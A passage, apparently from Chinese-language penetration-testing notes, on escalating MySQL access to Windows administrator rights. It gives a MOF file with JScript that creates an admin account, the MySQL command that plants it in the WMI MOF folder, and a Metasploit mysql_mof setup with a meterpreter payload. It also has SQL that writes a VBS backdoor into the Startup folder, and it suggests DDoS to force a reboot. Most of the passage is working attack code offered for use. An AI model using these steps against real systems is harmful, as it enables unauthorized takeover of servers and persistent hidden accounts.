```ini
Name = "consPCSV2";
ScriptingEngine = "JScript";
ScriptText =
"var WSH = new ActiveXObject(\"WScript.Shell\") WSH.run(\"net.exe user sqladmin admin /add&&net.exe localgroup administrators sqladmin /add\")";
};

instance of __FilterToConsumerBinding
{
Consumer   = ;
Filter = ;
};
```
1. 保存为 1.mof,然后 mysql 执行:`select load_file('D:/wwwroot/1.mof') into dumpfile 'c:/windows/system32/wbem/mof/nullevt.mof';`
2. mof 被执行的话,会帮我们添加一个叫 sqladmin 的用户.

**关于 Mof 提权的弊端**

我们提权成功后,就算被删号,mof 也会在五秒内将原账号重建,那么这给我们退出测试造成了很大的困扰,所以谨慎使用.那么我们如何删掉我们的入侵账号呢？
```
net stop winmgmt
del c:/windows/system32/wbem/repository
net start winmgmt
```

- MSF 模块
    ```bash
    use exploit/windows/mysql/mysql_mof
    set RHOSTS <ip>
    set USERNAME <user>
    set PASSWORD <pass>
    set payload windows/meterpreter/bind_tcp
    set RHOST <ip>
    set LPORT 4444
    exploit
    ```

**启动项提权**

在前两种方法都失败时,那可以试一下启动项提权..因为要求达到的条件和 mof 几乎一样,并且要重启服务,所以不是十分推荐.原理还是使用 mysql 写文件,写入一段 VBS 代码到开机自启动中,服务器重启达到创建用户并提权,可以使用 DDOS 迫使服务器重启.

提权条件
1. file_priv 不为 null
2. 已知 root 密码

```sql
create table a (cmd text);
insert into a values ("set wshshell=createobject (""wscript.shell"") " );
insert into a values ("a=wshshell.run (""cmd.exe /c net user sqladmin 123456 /add"",0) " );
insert into a values ("b=wshshell.run (""cmd.exe /c net localgroup administrators sqladmin /add"",0) " );
select * from a into outfile "C:\\Documents and Settings\\All Users\\「开始」菜单\\程序\\启动\\a.vbs";
```

---